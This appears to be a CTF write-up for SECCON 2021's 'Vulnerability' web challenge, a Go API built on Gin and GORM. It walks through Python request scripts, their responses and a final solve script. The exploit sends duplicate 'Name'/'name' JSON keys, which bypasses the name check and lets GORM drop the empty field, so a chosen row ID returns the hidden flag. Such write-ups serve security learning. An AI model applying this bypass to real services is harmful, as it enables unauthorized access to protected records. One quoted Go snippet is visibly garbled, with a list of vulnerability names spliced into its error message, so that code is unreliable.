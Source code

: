 *2021-12-11*
#ctf-writeup 

Link: https://ctf.seccon.jp/

***

# Vulnerability
**Category: web**

## Description
How many vulnerabilities do you know?
https://vulnerabilities.quals.seccon.jp

## Method
The code is written in Go. This website also has two API Endpoints: a GET request to https://vulnerabilities.quals.seccon.jp/api/vulnerability will give you all the vulnerabilities in the database (except the flag), and a POST request to the same endpoint with the parameter `name=?` will give you the details about a specific vulnerability.

There is a vulnerability in the database that corresponds to the name of the flag. Unfortunately the name is set as an environment variable, so it is hidden.

## Basic POST Script
This script makes a request to get information about the SGAxe vulnerability:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "SGAxe"
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

It returns the following:

```json
200
{"Logo":"/images/sgaxe.png","URL":"https://cacheoutattack.com/"}
```

## General Thoughts
Since the description is: "How many vulnerabilities do you know?", there will likely be a vulnerability with Go, or possibly with Gin.

https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMGINGONICGIN-550031

It's also possible that we can use the way GORM runs queries. Supposedly, if the other fields in the query are blank, it will use the Model object to run the query.

The following query returns the Heartbleed object:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 1
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

While this one does not, because the ID does not match.

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 2
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)

```

The problem is that the Go code checks for fields being blank, or nil, through the following lines:

```go
if name, ok := json["Name"]; !ok || name == "" || name == nil {
    c.JSON(400, gin.H{"Error"","DROWN Attack","CCS Injection","httpoxy","Meltdown","Spectre","Foreshadow","MDS","ZombieLoad Attack","RAMBleed","CacheOut","SGAxe"]}: "no \"Name\""})
    return
}
```

## Solution
In order to solve this challenge we need to circumvent the `Name` check. However, the problem is that if we specify a name then we can not get the flag because the name would be added to the SQL query. Since we don't know the name, the query would not return any results.

We need to find a way to make the code think we are sending a name but not have it affect the query.

GORM, the query library used, has the following in it's documentation:
```
NOTE When querying with struct, GORM will only query with non-zero fields, that means if your field’s value is 0, '', false or other zero values, it won’t be used to build query conditions, for example...
```

This means that by making `Name` the empty string, a zero value in Go, then GORM will not evaluate it in the query.

The following JSON seems to work. By sending the name twice, one of them the empty string and the other not, the non-empty string will allow the `Name` check to pass, but the query itself will use the empty string, thus not evaluating it.

```json
{
    "Name": "a",
    "name": "",
}
```

Then, to specify the row containing the flag in the query we can use the `ID` column that was added by the `gorm.Model` when defining the `Vulnerability` struct.

```go
type Vulnerability struct {
    gorm.Model
    Name string
    Logo string
    URL  string
}
```
https://gorm.io/docs/models.html#Embedded-Struct

Flag was the 14th row added, so it's `ID` is 14.

Posting with the following JSON will retrieve the flag:
```json
{
    "Name": "a",
    "name": "",
    "ID": 14
}
```

```json
{"Logo":"/images/SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}.png","URL":"seccon://SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}"}
```

## Solve Script
```python
import requests

def main():
    HOST = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"

    json = {
        "Name": "a",
        "name": "",
        "ID": 14
    }

    r = requests.post(HOST, json=json)

    print(r.text)

main()
```

## Flag
`SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}`

***
